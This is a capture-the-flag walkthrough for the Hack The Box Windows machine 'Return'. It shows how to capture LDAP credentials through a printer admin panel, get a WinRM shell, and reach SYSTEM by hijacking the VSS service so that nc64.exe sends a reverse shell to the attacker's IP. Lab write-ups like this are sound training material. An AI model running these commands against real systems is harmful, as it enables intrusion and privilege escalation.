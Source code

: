 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- **Difficulty:** Easy  
- **Key Techniques:**  
  - Printer admin panel → LDAP creds  
  - WinRM → svc‑printer shell  
  - Server Operators → service hijack → SYSTEM  

---

## 🕵️ Recon

```bash
# Full TCP scan
nmap -p- --min-rate 10000 -oA nmap/return-alltcp 10.10.11.108

# Top ports + default scripts
nmap -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389 \
  -sC -sV -oA nmap/return-services 10.10.11.108
```

- **IIS 10.0** on port 80 → “HTB Printer Admin Panel”  
- **LDAP** (389/636), **Kerberos** (88), **SMB** (445), **WinRM** (5985)  

---

## 🖨️ Shell as **svc-printer**

### 1. Leak LDAP credentials via admin panel

- Browse to `http://10.10.11.108/settings.php`  
- Change “Printer Hostname” to your IP:`http://10.10.14.6`  
- Listen on port 389:
  ```bash
  nc -lnvp 389
  ```
- Submit → the appliance attempts an LDAP bind to you, leaking:
  ```
  Username: return\svc-printer
  Password: 1edFg43012!!
  ```

### 2. WinRM / SMB access

```bash
# Verify WinRM
crackmapexec winrm 10.10.11.108 \
  -u svc-printer -p '1edFg43012!!'

# Shell via Evil-WinRM
evil-winrm -i 10.10.11.108 \
  -u svc-printer -p '1edFg43012!!'
```

- **User flag**:
  ```powershell
  type C:\Users\svc-printer\Desktop\user.txt
  # c0118264************************
  ```

---

## 👑 Shell as **SYSTEM**

### 1. Enumerate privileges & groups

```powershell
whoami /priv     # sees SeBackup, SeRestore, SeLoadDriver, …
whoami /groups   # member of BUILTIN\Server Operators
```

> **Server Operators** can _start/stop services_ on the host.

### 2. Hijack Windows service

1. **Upload** `nc64.exe` to `C:\ProgramData\nc64.exe`.  
2. **Reconfigure** the `VSS` service to run your payload:

   ```powershell
   sc.exe config VSS binpath=\
     "C:\Windows\System32\cmd.exe /c C:\ProgramData\nc64.exe -e cmd 10.10.14.6 443"
   ```
3. **Start** it (it will time out, but your shell persists):

   ```powershell
   sc.exe start VSS
   ```

4. **Catch your SYSTEM shell**:

   ```bash
   nc -lnvp 443
   # → nt authority\system
   ```

- **Root flag**:
  ```powershell
  type C:\Users\Administrator\Desktop\root.txt
  # 2e3771d0************************
  ```

---

## 🎉 Summary

1. **Printer Admin** → LDAP bind → `svc-printer:1edFg43012!!`  
2. **WinRM** → `svc-printer` shell  
3. **Server Operators** → modify `VSS` service → SYSTEM shell  
